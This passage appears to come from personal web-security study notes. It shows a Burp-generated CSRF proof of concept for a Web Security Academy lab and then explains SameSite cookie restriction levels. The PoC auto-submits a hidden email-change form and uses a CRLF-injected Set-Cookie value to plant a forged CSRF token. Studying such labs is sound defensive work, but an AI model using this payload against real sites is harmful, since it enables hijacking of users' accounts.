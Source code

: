 In this situation, the attacker can again perform a CSRF attack if the website contains any cookie setting functionality. Here, the attacker doesn't need to obtain a valid token of their own. 

```html
<html>
<!-- CSRF PoC - generated by Burp Suite Professional -->
	<body>
		<script>
		  	history.pushState('', '', '/');
		</script>
		<form action="https://0add00be04a9a681abda09be005700eb.web-security-academy.net/my-account/change-email" method="POST">
			<input type="hidden" name="email" value="exploit&#64;test&#46;com" />
			<input type="hidden" name="csrf" value="fake" />
			<input type="submit" value="Submit request" />
		</form>
		<img src="https://0add00be04a9a681abda09be005700eb.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
	</body>
</html>
```

# Bypass SameSite Cookie restrictions

SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. SameSite cookie restrictions provide partial protection against a variety of cross-site attacks, including CSRF, cross-site leaks, and some CORS exploits. 

As you can see from this example, the term "site" is much less specific as it only accounts for the scheme and last part of the domain name. Crucially, this means that a cross-origin request can still be same-site, but not the other way around. 

![](/hackingnotes/images/csrf-site-origin.png)


|     **Request from**    |        **Request to**        |     **Same-Site?**    |      **Same-Origin?**      |
|:-----------------------:|:----------------------------:|:---------------------:|:--------------------------:|
|   https://example.com   |      https://example.com     |          Yes          |             Yes            |
| https://app.example.com | https://intranet.example.com |          Yes          | No: mismatched domain name |
|   https://example.com   |   https://example.com:8080   |          Yes          |     No: mismatched port    |
|   https://example.com   |    https://example.com.uk    |   No: mismatched TLD  | No: mismatched domain name |
|   https://example.com   |      http://example.com      | No: mismatched scheme |    No: mismatched scheme   |

`SameSite` has the following restriction levels:

* `Strict`: Browsers will not send it in any cross-site requests.
* `Lax`: Browsers will send the cookie in cross-site requests but only if the request uses `GET` method and the request is a result of a top-level navigation by the user, such as clickn on a link.
* `None`: Disables SameSite restrictions. It is the default behaviour used by major browsers if no `SameSite` is provided execept of Chrome.
